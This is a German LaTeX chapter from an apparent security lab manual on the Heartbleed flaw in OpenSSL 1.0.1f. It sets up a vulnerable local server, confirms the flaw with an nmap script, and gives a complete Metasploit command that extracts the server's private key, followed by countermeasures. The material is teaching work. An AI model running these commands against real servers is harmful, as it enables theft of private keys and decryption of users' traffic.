%!TEX root = ../document.tex
\chapter{Heartbleed in OpenSSL}

Heartbleed ist die Bezeichnung für eine Verwundbarkeit in der SSL-Library OpenSSL, die von Version 1.0.1 bis 1.0.1f bestand und im Jahr 2014 etwa 500\,000 Server betraf. Die Vulnerability entstand durch die Implementierung einer Heartbeatfunktionalität für TLS, welche es jedoch serverseitig versäumte, Puffergrenzen zu überprüfen.

Das Heartbeat-Protokoll sieht es vor, dass ein Client sowohl bis zu 16\,kByte Daten als auch die Länge der gesendeten Daten an den Server sendet. Der Server antwortet daraufhin mit den erhaltenen Daten, um zu bestätigen, dass die Verbindung noch aufrecht erhalten wird. Unter Heartbleed versteht man einen Angriff auf diesen Heartbeat-Mechanismus, der durch Angabe einer Dateilänge größer als die der mitgesendeten Daten den Server dazu bringt, Teile seines Speicherbereiches mitzusenden.

\begin{figure}[ht!]
	\centering
	
\includegraphics[width=0.6\textwidth]{images/Heartbleed/heartbleed.png}
	\caption{Skizze des Heartbeat-Mechanismus und der Verwundbarkeit namens Heartbleed nach \url{https://commons.wikimedia.org/wiki/File:Simplified_Heartbleed_explanation.svg}}
\end{figure}



Dies kann unter anderem dazuführen, dass der Angreifer den Private Key des Servers erhält. Wurde der Private Key kompromittiert, ist der Angreifer in der Lage aufgezeichneten SSL-Verkehr nachträglich zu entschlüsseln oder Nachrichten im Namen des Servers zu signieren.

\section{Vorbereitung}
Es werden ein bis zwei Rechner mit Kali Linux 2.0 und eingerichteter Security Workbench benötigt. Verwendet man nur einen Rechner, so fungiert dieser sowohl als Opfer als auch als Angreifer. Sollen die Rollen über zwei Rechner verteilt werden, müssen diese über das Netzwerkprotokoll TCP auf einem beliebigen Port -- voreingestellt ist 8989 -- miteinander kommunizieren können.

\section{Ablauf}
Die Demonstration erfolgt in zwei Phasen: Zuerst konfiguriert und startet das Opfer einen für Heartbleed verwundbaren Server. Anschließend stellt der Angreifer die Schwachstelle fest und liest den Private Key des Servers aus. Abschließend kann das Opfer den Server beenden.

\subsection{Opfer -- Die Einrichtung des verwundbaren Servers}

Damit eine Demonstration der Verwundbarkeit möglich ist, wurde OpenSSL 1.0.1f als Kompilat in das Wurzelverzeichnis der Workbench abgelegt. Dass es sich bei dem Programm um eine der verwundbaren Version handelt, wird im ersten Schritt überprüft.

\begin{lstlisting}
# ./openssl version
OpenSSL 1.0.1f 6 Jan 2014
\end{lstlisting}

Durch das \bashCommand{./} wird sichergestellt, dass das OpenSSL-Programm im lokalen Verzeichnis verwendet wird -- statt der aktuelleren und vorinstallierten Version von Kali Linux.

Um eine SSL-Verbindung anzubieten, wird ein Private Key und ein (selbst-) signierter Public Key benötigt, beide Dateien werden ebenfalls mit OpenSSL erzeugt. Der Benutzer wird während des Vorgangs aufgefordert, Angaben zum gerade erstellten Zertifikat zu machen. Die Vorgaben können nach Belieben übernommen oder abgeändert werden.

\begin{lstlisting}
./openssl req -x509 -newkey rsa:1024 -keyout private_key.pem -out certificate.pem -days 365 -nodes -config /etc/ssl/openssl.cnf
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{req} Durchführung eines Certificate Signing Requests(CSR)
	\item \bashCommand{-x509} Erzeugung eines selbstsigniertes Zertifikats statt CSR
	\item \bashCommand{-newkey rsa:1024} Neuer Private Key für 1024-bit RSA
	\item \bashCommand{-keyout private\_key.pem} Ausgabedatei für Private Key
	\item \bashCommand{-out certificate.pem} Ausgabedatei für das Zertifikat
	\item \bashCommand{-days 365} Gültigkeitsdauer des selbstsignierten Zertifikats in Tagen
	\item \bashCommand{-nodes} Der erzeugte Private Key wird unverschlüsselt abgelegt
	\item \bashCommand{-config /etc/ssl/openssl.cnf} Angabe einer zusätzlicher Konfigurationsdatei
\end{itemize}

Zum Vergleich mit dem später vom Angreifer ausgelesenen Private Key wird dieser nun mit OpenSSL ausgegeben.

\begin{lstlisting}
./openssl rsa -in private_key.pem
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{rsa} Bearbeitung von RSA Schlüsseln
	\item \bashCommand{-in private\_key.pem} Angabe der Datei, welche den Private Key enthält
\end{itemize}

Nun kann der in OpenSSL integrierte Webserver gestartet werden. Die anschließend aufrufbare Website zeigt Informationen über die SSL-Konfiguration an.

\begin{lstlisting}
./openssl s_server -key private_key.pem -cert certificate.pem
	-accept 8989 -www
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{s\_server} Start eines einfachen Webservers
	\item \bashCommand{-key private\_key.pem -cert certificate.pem } Private Key und Zertifikat
	\item \bashCommand{-accept 8989} TCP-Port des Webservers
	\item \bashCommand{-www} Einfacher Webserver mit Statusinformationen
\end{itemize}

Der Webserver kann nun unter \url{https://localhost:8989} aufgerufen werden.

\subsection{Angreifer -- Attacke mit Nmap und Metasploit}
Wurde der Webserver wie im vorangehenden Abschnitt beschrieben eingerichtet, kann nun der Angriff auf die verwundbare OpenSSL-Instanz begonnen werden. Für die folgenden Kommandos wird die IP des Opfers und der verwendete Port benötigt. Werden beide Skripte auf dem selben Rechner durchgeführt, lautet die IP-Adresse \bashCommand{127.0.0.1}. Der Port ist standardmäßig \bashCommand{8989}.

Im ersten Schritt wird mit dem Netzwerkscanner Nmap überprüft, ob der Server für Heartbleed anfällig ist. Dieser Scan kann einige Zeit in Anspruch nehmen, währenddessen werden im Konsolenfenster des OpenSSL-Servers einzelne Anfragen angezeigt.

\begin{lstlisting}
nmap --script ssl-heartbleed -sV -p 8989 127.0.0.1
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{nmap} Netzwerkscanner
	\item \bashCommand{--script ssl-heartbleed} Verwendung des Heartbleed-Scanner Plugins
	\item \bashCommand{-sV} Dienst- und Versionserkennung auf offenen Ports
	\item \bashCommand{-p 8989} zu verwendenter Port
	\item \bashCommand{127.0.0.1} IP des zu scannenden Servers
\end{itemize}

Nach Abschluss des Scans wird folgender Hinweis ausgegeben. Der Server ist aus Sicht des Angreifers für Heartbleed verwundbar.

\begin{lstlisting}[caption={Nmap Ausgabe zu verwundbaren SSL-Dienst},label=lst:nmap_heartbleed]
PORT     STATE SERVICE  REASON         VERSION
8989/tcp open  ssl/http syn-ack ttl 64 OpenSSL s_server -www httpd (command line: s_server -key private_key.pem -cert certificate.pem -accept 8989 -www)
| ssl-heartbleed:
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
\end{lstlisting}

Nun wird versucht, mittels Metasploit den Private Key des Servers auszulesen. Üblicherweise wird Metasploit als selbstständige Konsole gestartet, auf welcher einzelne Befehle zur Konfiguration des Angriffs nacheinander eingegeben werden. Diese Befehle werden stattdessen hier mit \bashCommand{-x} direkt als Parameter angegeben.

\begin{lstlisting}[caption={Metasploit-Plugin zum Angriff auf den OpenSSL-Server},label=lst:metasploit_heartbleed]
msfconsole -x '
	# Lade das Heartbleed-Plugin
	use auxiliary/scanner/ssl/openssl_heartbleed;
	# Setze den Modus auf Gewinnung des Private Keys
	set action KEYS;
	# IP des Zielservers
	set RHOSTS 127.0.0.1;
	# Port des SSL-Dienstes
	set RPORT 8989;
	# erweitere Ausgabe
	set verbose true;
	# Starte den Exploit
	exploit;
	# Beende Metasploit
	exit;
'
\end{lstlisting}


Nach Start der Metasploit-Konsole -- was einige Zeit in Anspruch nehmen kann -- wird der OpenSSL-Server automatisiert angegriffen und bei Erfolg der Private Key auf der Konsole ausgegeben. Dieser sollte identisch zum zuvor vom Opfer erzeugten Private Key sein, der in dessen Konsole ausgegeben worden ist.




\section{Gegenmaßnahmen}
Veraltete OpenSSL-Bibliotheken sollten aktualisiert werden. Sicher vor Heartbleed ist OpenSSL ab Version 1.0.1g, aktuell ist die Version 1.1.0c\footnote{Stand Dezember 2016}. Zudem sollten alle privaten Schlüssel des Servers als kompromittiert betrachtet, widerrufen\footnote{Stichwort Certificate Revocation List} und ersetzt werden.